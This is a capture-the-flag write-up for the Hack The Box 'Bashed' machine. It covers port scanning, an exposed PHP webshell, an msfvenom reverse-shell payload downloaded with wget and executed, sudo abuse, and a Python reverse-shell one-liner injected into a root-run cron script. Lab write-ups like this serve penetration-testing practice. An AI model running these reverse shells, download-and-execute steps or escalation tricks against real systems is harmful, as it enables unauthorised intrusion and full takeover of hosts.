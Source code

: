 # [Bashed](https://app.hackthebox.eu/machines/118)

Start off with an couple of `nmap` scans:

```bash
sudo nmap -sS -sC -p1-65535      --open -Pn 10.10.10.68 # deep scan 
sudo nmap -sS -sC --top-ports=20 --open -Pn 10.10.10.68 # quick scan
```

Both scans return the following open port:

![nmap](./bashed/nmap.png)

While exploring the website, the following scans can run in the background:

```bash
dirb http://10.10.10.68 -r
nikto -h http://10.10.10.68 --maxtime=30s
```

The website is a landing page for a PHP reverse shell for penetration testing and points to a Github repository: https://github.com/Arrexel/phpbash
![website](./bashed/website.png)

Looking at the other scans, `nikto` didn't return anything useful. However, `dirb` returned the following interesting directories:

![dirb](./bashed/dirb.png)

Looking inside `http://10.10.10.68/dev` shows 2 files `phpbash.php` and `phpbash.min.php` which open shells on the target:

![phpbash_enum](./bashed/phpbash_enum.png)

After some basic enumeration, the machine is running `Ubuntu 16.04.2 LTS` on an `x86_64` architecture and has `wget` installed. From here, a reverse shell payload can be made, uploaded, and executed:

```bash
# generate the payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.23 \
         LPORT=6969 \
         –e x86/shikata_ga_nai \
         -i 9 \
         -f elf > bubba.elf
# host the payload on port 8080
python3 -m http.server 8080
```

Then in the PHP webshell:

- Had issues trying to run the following as one command... but it works when running each seperately?

```bash
cd /tmp
wget http://10.10.14.23:8080/bubba.elf
chmod 777 bubba.elf
./bubba.elf
```

This will spawn a dedicated reverse shell that can be upgraded to a TTY shell using the following:

```bash
/usr/bin/script -qc /bin/bash /dev/null
```

![ww-data_shell](./bashed/www-data_shell.png)

Looking for user files gives `user.txt`:

![user](./bashed/user.png)

During user enumeration, the following interesting users show up and `www-data` is allowed to run commands as one of them:

```bash
cat /etc/passwd | cut -d: -f1 # list users
sudo -l                       # get user permissions
sudo -u scriptmanager id      # test user permissions
```

![sudo](./bashed/sudo.png)

Next find all files owned by this new use `scriptmanager`. This returns an interesting file at `/scripts/test.py`:

```bash
sudo -u scriptmanager find / -user scriptmanager -type f -exec ls -lad {} \; 2>/dev/null
```

![find](./bashed/find.png)

This file has the following contents:

```python
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

When looing for the file `test.txt`, it seems to be owned by `root`:

```bash
sudo -u scriptmanager find / -iname test.txt -type f -exec ls -lad {} \; 2>/dev/null
```

![find2](./bashed/find2.png)

Maybe `root` is running this `test.py`? To test the theory, add the following to `test.py`:

```bash
sudo -u scriptmanager /bin/bash
echo "f=open('hello','w');f.write('world');f.close" >> /scripts/test.py
```

After a couple of minutes, a new file appears in `/scripts` owned as `root`!

![hello_world](./bashed/hello_world.png)

Add the following Python reverse shell payload to `test.py` as `scriptmanager` for a `root` reverse shell:

```bash
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.23",7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' >> /scripts/test.py
```

And wait for the connection:

![root](./bashed/root.png)

